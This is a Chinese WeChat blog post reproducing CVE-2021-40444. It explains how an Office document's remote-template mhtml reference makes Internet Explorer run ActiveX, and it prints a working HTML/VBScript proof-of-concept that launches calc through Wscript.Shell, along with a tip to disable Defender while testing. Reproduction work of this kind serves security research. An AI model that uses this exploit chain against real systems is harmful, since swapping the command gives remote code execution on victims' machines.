 #  CVE-2021-40444复现

原创 查鲁特 [ 边界骇客 ](javascript:void\(0\);)

**边界骇客** ![]()

微信号 no__root

功能介绍 科技向善，科技理应向善

____

__

收录于话题

**前言:这几天导出都是这个漏洞的通告，就简单看了下。  
**

 **  
**

 **1.CVE-2021-40444**

这个漏洞严格来说并不能算一个新的漏洞，Windows一些自身的产品如（office，outlook）能调用IE浏览器能执行ACTIVEX也不是啥新闻了，去年的时候我就有发一篇文章关于Outlook的滥用，造成命令执行。

  * 

    
    
    https://www.freebuf.com/articles/network/243747.html

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153729.png)

这边值得注意的一点就是，即使在新人中心禁用了office的ActiveX也是无效，因为最后执行ActiveX的是IE浏览器而非office(你们要抓的是周树人，和我鲁迅有什么关系？)  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153730.png)

  

 **2.样本分析**

一开始没有样本，只有一串样本hash。通过反查hash绕了几层，最终在anyrun下载到样本。

  * 

    
    
    样本md5:d1837399df37757e5ebd04f45746301a

虚拟机打开样本:  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153731.png)

典型远程模板加载的特征，看到触发方式和通报，利用姿势大概就猜到了，后面就暂时不看了。

* * *

  1. 把样本后缀改成zip，解压  

  2. 路径:word→_rels→document.xml.rels

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153732.png)

明显可以从文件中看到引用了mhtml，然后Windows默认浏览器执行ActiveX最后造成代码执行。

  

 **3.复现**

既然是老姿势，直接把配置文件地址，为我们服务器的地址。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153733.png)

html内容改成弹计算器吧:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <html><head><meta http-equiv="Content-Language" content="en-us"><meta http-equiv="Content-Type" content="text/html; charset=windows-1252"><title>Outlook</title><script id=clientEventHandlersVBS language=vbscript><!-- Sub window_onload()     Set cmd = CreateObject("Wscript.Shell")     cmd.Run("calc") End Sub--></script></head><body><h1>CVE-2021-40444</h1> <object classid="clsid:0006F063-0000-0000-C000-000000000046" id="ViewCtl1" data="" width="100%" height="100%"></object></body></html>

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153734.png)

  

 **写在最后:defender查的紧，需要关闭后测试。**

｡:.ﾟヽ(｡◕‿◕｡)ﾉﾟ.:｡+ﾟ防盗专用｡:.ﾟヽ(｡◕‿◕｡)ﾉﾟ.:｡+ﾟ

 ^_^文章来源：微信公众号（边界骇客） ^_^

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210910153736.png)

 **  
**  

![]()

查鲁特

![赞赏二维码]() **微信扫一扫赞赏作者** 赞赏

已喜欢，[对作者说句悄悄话](javascript:;)

取消 __

#### 发送给作者

发送

最多40字，当前共字

[](javascript:;) 人赞赏

上一页 [1](javascript:;)/3 下一页

长按二维码向我转账

受苹果公司新规定影响，微信 iOS 版的赞赏功能被关闭，可通过二维码转账支持公众号。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

CVE-2021-40444复现

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

